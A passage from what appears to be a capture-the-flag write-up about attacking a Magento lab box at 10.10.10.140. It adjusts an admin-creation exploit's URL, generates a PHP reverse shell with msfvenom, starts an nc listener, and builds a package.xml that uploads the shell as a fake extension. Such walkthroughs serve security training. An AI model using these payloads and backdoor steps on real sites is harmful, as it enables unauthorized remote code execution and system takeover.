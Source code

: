 So the original code looks like:

    target = "http://target.com/"
    
    if not target.startswith("http"):
        target = "http://" + target
    
    if target.endswith("/"):
        target = target[:-1]
    
    target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

and the fixed code (with some extraneous checks removed is):

    target = "http://10.10.10.140/"
    target_url = target + "index.php/admin/Cms_Wysiwyg/directive/index/"

This worked fine and I could login to http://10.10.10.140/index.php/admin/ with the username and password of forme

### Getting a shell

We now need to get a shell on the box. I did have a play with the second exploit, _Magento CE \< 1.9.0.1 - (Authenticated) Remote Code Execution_, but I couldn't get this to work, though I revisited it later after rooting the box and the details are towards the end.

Having used a bunch of admin interfaces before I wondered if there was a &nbsp;way of uploading custom modules. A google suggest the the Connect &nbsp;Manager under /downloader did exactly that. I then had a google for &nbsp;"magento backdoor" and found this great article [https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html](https://dustri.org/b/writing-a-simple-extensionbackdoor-for-magento.html)

The process seemed straightforward, so I first created a suitable payload with msfvenom:

`msfvenom -p php/reverse_php LHOST=10.10.14.10 LPORT=1234 -f raw > backdoor.php`

and started the usual listener with `nc -lvp 1234`

I then created the package.xml file that's required

    <?xml version="1.0"?>
    <package>
    <name>backdoor</name>
    <version>1.3.3.7</version>
    <stability>devel</stability>
    <licence>backdoor</licence>
    <channel>community</channel>
    <extends/>
    <summary>Backdoor for magento</summary>
    <description>Backdoor for magento</description>
    <notes>backdoor</notes>
    <authors>
        <author>
            <name>bob</name>
            <user>bob</user>
            <email>bob@bobhaddock.org</email>
        </author>
    </authors>
    <date>2019-07-17</date>
    <time>13:47:49</time>
    <contents>
        <target name="mage">
            <dir>
                <dir name="errors">
                    <file name="backdoor.php" hash="98edac532f7ee8c838bd99c68e4fff9c"/>
                               </dir>
            </dir>
        </target>
    </contents>
    <compatible/>